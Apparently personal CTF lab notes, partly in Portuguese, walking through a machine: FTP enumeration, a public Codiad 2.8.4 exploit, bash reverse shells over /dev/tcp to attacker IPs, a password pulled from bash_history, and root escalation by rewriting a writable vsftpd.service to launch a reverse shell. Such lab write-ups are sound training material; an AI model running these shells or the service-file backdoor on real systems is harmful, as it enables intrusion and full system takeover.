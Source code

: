 Enumerate

ftp

username:John 
Password:password
```
serchsploit codiad 2.8.4
```
---

python3 49705.py http://10.10.178.9:62337/ john password 10.9.9.67 1234 linux

[script](https://www.exploit-db.com/exploits/49705)
```
echo 'bash -c "bash -i >/dev/tcp/10.9.9.67/1235 0>&1 2>&1"' | nc -lnvp 1234
```

```
nc -lvnp 1234
```
---

another exemplo:

python3 49705.py http://10.10.178.9:62337/ john password 10.9.9.67 1234 linux

```
nc -lvnp 1234 < comands

```

comands is file with:
```
bash -i >& /dev/tcp/10.17.1.253/9001 0>&1

```

```
nc -lvnp 9001

```

--- 

Privilege escalation

```

cat .bash_history

```

ERRO: this is content of bash_history

```
mysql -u drac -p 'Th3dRaCULa1sR3aL'

```

CORRECT:
```
mysql -u root -p
password: Th3dRaCULa1sR3aL

```

see internal servers in the machine

```
ss -tulwn

```

Login user drac:

```
ssh drac@10.10.178.9
password: Th3dRaCULa1sR3aL

```
---

login root:

```
sudo -l

```

[gtfbions](https://gtfobins.github.io/gtfobins/service/)

```
sudo service ../../bin/sh

```

```
find / -name '*.service' 2>/dev/null
```

/var/lib/lxcfs/cgroup/name=systemd/system.slice/vsftpd.service

```
 find / -name 'vsftpd.service' 2>/dev/null
```

/lib/systemd/system/vsftpd.service

cd /lib/systemd/system
-rw-r`w`-r--  1 root drac   248 Aug  4  2021 vsftpd.service

```nano vsftpd.service

[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target

```
change

```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c '/bin/bash -i >& /dev/tcp/10.9.9.67/9901 0>&1'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target

```

```

nc -lvnp 9901
```

desligar  o servidor:
/usr/sbin/service vsftpd restart

systemctl daemon-reload

---

Reniciar o servidor:

systemctl daemon-reload

/usr/sbin/service vsftpd restart